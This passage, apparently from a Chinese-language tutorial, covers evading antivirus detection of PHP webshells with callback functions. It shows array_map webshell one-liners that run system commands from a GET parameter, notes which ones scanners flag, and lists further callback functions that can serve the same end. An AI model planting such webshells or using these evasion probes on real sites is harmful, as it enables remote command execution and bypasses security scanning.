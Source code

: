 得到回显：

```bash
Array
(
    [num1] => 1
    [num2] => 2
)
```

## 1# 回调类型函数

### 1.0 Tips

在 PHP 的 WebSehll 免杀测试过程中，使用回调函数可以发现查杀引擎对函数和函数的参数是否有对应的敏感性

```bash
array_map('system', array('whoami'));        //被查杀
array_map($_GET['a'], array('whoami'));      //被查杀
array_map('var_dump', array('whoami'));      //未被查杀
array_map('system', array($_GET['a']));      //被查杀
```

这里在列举一些回调函数，感兴趣可以自行查找：

```bash
array_filter() 
array_walk()  
array_map()
array_reduce()
array_walk_recursive()
call_user_func_array()
call_user_func()
filter_var() 
filter_var_array() 
registregister_shutdown_function()
register_tick_function()
forward_static_call_array()
uasort() 
uksort()
```

### 1.1 array\_map()

**`array_map()` 函数将用户自定义函数作用到数组中的每个值上，并返回用户自定义函数作用后的带有新的值的数组**

Demo：将函数作用到数组中的每个值上，每个值都乘以本身，并返回带有新的值的数组：

```bash
function myfunction($v)
{
return($v*$v);
}

$a=array(1,2,3,4,5);    //array(1,4,9,16,25)
print_r(array_map("myfunction",$a));
```
